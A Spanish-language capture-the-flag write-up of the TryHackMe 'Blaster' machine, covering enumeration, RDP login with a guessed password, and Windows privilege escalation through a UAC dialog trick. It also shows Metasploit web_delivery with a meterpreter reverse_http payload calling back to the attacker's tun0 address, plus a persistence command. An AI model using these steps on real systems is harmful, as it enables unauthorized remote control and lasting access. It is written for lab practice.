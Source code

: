 # Blaster

Esta máquina es la última de la trilogía: Blue, Ice & Blaster, lo que significa que está hecha por la misma persona y que nos guían bastante por todo el desarrollo de esta.

# Análisis

Empecemos con un escaneo de puertos, parece que la máquina está bloqueando los *ping*, probamos con el parámetro `-Pn`:
![alt text](img/image.png)

Encontramos un servio web en el puerto 80(Microsoft IIS httpd 10.0), y lo que parece una terminal remota(?) en el puertp 3389.

Empecemos por el más fácil, el servicio web:
![alt text](img/image-1.png)

fuzzeamos la página:
![alt text](img/image-2.png)
> Va para largo

Encontramos 2 directorios, que son los mismos: /retro
En este directorio encontramos varias entradas de una misma persona **Wade**, un posible usuario del sistema.
Además de un comentario *curioso*:

![alt text](img/image-3.png)
Dice que van a hacer una peli de su libro favorito, que se llama igual que el prota de esa peli, y que se sigue equivocando al escribir el avatar al logearse. Podemos deducir, que el nombre del avatar es la contraseña de **Wade**:
![alt text](img/image-4.png)

Vamos a intentar iniciar sesión con estas credenciales a traves de la terminal remota RDP:
![alt text](img/image-5.png)
![alt text](img/image-6.png)

Ya estariamos dentro del servidor, y encontramos la primera *flag*, **user.txt**.
> THM{HACK_PLAYER_ONE}

Vale, ahora que somos Wade, toca escalar privilegios.
Encontramos este historial de busquedas en el navegador:
![alt text](img/image-7.png)

![alt text](img/image-8.png)

Esta escalada de privilegios es un poco absurda, por lo fácil que es.

1. Tenemos que ejecutar un archivo que esté protegido por contraseña(administrador):
![alt text](img/image-9.png)

2. Seguimos los siguientes pasos:
![alt text](img/image-10.png)
![alt text](img/image-11.png)
![alt text](img/image-12.png)

3. Esto nos abrirá el internet explorer, pero nunca cargará. En este momento tenemos que guardar la página con `Ctrl+S`

4. Nos saldrá un error, lo quitamos y en la barra del explorador ponemos ``cmd``:
![alt text](img/image-13.png)

5. Esto nos abrirá una terminal con permisos de administrador:
![alt text](img/image-14.png)
![alt text](img/image-16.png)

![alt text](img/image-15.png)
Segunda flag.

Ya habríamos terminado, pero también podemos hacer la máquina usando metaxploit. Iniciamos metasploit y usamos el siguiente ``exploit``: 
exploit/multi/script/web_delivery

Primero, tenemos que cambiar el target. De primeras está en python, lo tenemos que cambiar PSH, que tiene el id 2:
![alt text](img/image-17.png)

Ponemos el lhost correcto:
```bash
set lhost tun0
```

El puerto lo podemos dejar por defecto, y THM nos dice que usemos el payload:
``set payload windows/meterpreter/reverse_http``

Iniciamos el exploit con ``run``, y esto nos devuelve un comando de powershell, que tenemos que poner en el servidor, o sea, todo esto sirve para escalar privilegios, no para entrar en la máquina.
![alt text](img/image-18.png)
![alt text](img/image-19.png)

Se crea una nueva sesión, y si ponemos:
``sessions 1``

![alt text](img/image-20.png)

Por último, para ganar persistencia y que el meterpreter inicie cada vez que inicie la máquina, tenemos que poner el siguiente comando:
``run persistence -X``
